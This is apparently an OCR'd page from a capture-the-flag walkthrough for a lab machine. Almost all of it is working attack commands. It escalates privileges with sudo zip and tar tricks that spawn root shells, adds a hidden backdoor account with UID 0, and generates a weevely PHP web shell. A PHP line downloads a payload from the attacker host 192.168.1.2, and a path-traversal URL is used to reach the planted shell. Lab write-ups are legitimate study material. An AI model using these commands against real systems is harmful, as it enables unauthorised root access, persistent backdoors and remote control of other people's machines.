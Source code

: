 ```
define('DB_CHARSET', 'utf8');
define('DB_COLLATE', '');
```
```
ssh zico@192.168.1.1
```

### Privilige Escalation
```
sudo -l
touch /tmp/privesc
sudo -u root zip /tmp/privesc.zip /tmp/privesc -T --unzip-command="sh -c /bin/bash"
sudo -u root tar cf /dev/null /tmp/privesc --checkpoint=1 --checkpoint-action=exec=/bin/bash
sudo -u root zip /tmp/privesc.zip /tmp/privesc -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"

-l = List
-u = User
-T = Test  the integrity of the new zip file
-i = Shell is interactive
```
```
bash -i
whoami
id root
```

### Backdooring
#### Creating Backdoored User Login
```
useradd -ou 0 -g 0 zombie
passwd zombie
id zombie

-o = --non-unique (Duplicate User)
-u = --uid (User ID) -> 0 (Root User) / 1000 (Sudo User)
-g = --gid (Group ID)
```

#### Creating PHP Backdoored
```
weevely generate b@cKd00r3d /usr/share/nginx/html/backdoored
chmod 777 /usr/share/nginx/html/backdoored
vim /usr/databases/post_exploitation_backdoored.php
```
```
<?php system("cd /tmp; wget http://192.168.1.2/backdoored; chmod 777 backdoored; mv backdoored backdoored.php"); ?>
```

#### Accessing PHP Backdoored
```
http://192.168.1.1/view.php?page=../../usr/databases/post_exploitation_backdoored.php
```
```
weevely http://192.168.1.1/view.php?page=../../tmp/backdoored.php b@cKd00r3d
```
